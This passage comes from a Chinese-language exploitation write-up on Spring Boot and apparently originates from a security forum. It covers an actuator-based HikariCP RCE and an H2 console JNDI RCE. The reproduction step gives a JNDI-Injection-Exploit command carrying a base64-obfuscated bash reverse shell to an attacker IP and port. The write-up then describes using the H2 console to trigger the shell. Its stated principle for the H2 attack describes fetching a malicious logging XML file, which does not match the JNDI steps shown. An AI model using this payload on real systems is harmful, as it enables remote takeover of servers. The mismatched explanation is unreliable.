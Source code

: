 ### 2.6.3 漏洞原理

通过访问`/actuator/env`设置`spring.datasource.hikari.connection-test-query` ，再通过`/actuator/restart`接口重启Spring Boot程序，sql语句中的自定义函数会被重新执行，触发rce。

2.7 h2 database console JNDI RCE
--------------------------------

### 2.7.1 利用条件

- 使用 `com.h2database.h2` 依赖（版本要求暂未知）；
- 启用了 `spring.h2.console.enabled=true`；
- 可以访问外网。

### 2.7.2 漏洞复现

1. 架设恶意 rmi 服务并开启监听

```php
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg4LjEyOS8zMzMzIDA+JjE=}|{base64,-d}|{bash,-i}' -A 192.168.88.129
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-77d623f1d8a74b1f4171c2d2a8257215f7e52144.png)

2. 触发 JNDI 注入  
    `Driver Class`处固定填写`javax.naming.InitialContext`,`JDBC URL`处填rmi服务生成的链接，再点击connect监听处反弹shell。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-e7bfc2f9175b58659d91f772968cae464acbec0a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-ed8f10cf487126c42453218421eb4493e6c0ead2.png)

### 2.7.3 漏洞原理

请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容。

0X03 总结
-------

在实际应用中，springboot可以攻击的点远不止这些！

参考链接  
<https://github.com/LandGrey/SpringBootVulExploit>  
[https://blog.csdn.net/qq\_23936389/article/details/125870644](https://blog.csdn.net/qq_23936389/article/details/125870644)  
[https://blog.csdn.net/qq\_40519543/article/details/121403143](https://blog.csdn.net/qq_40519543/article/details/121403143)  
<https://zhuanlan.zhihu.com/p/548317500>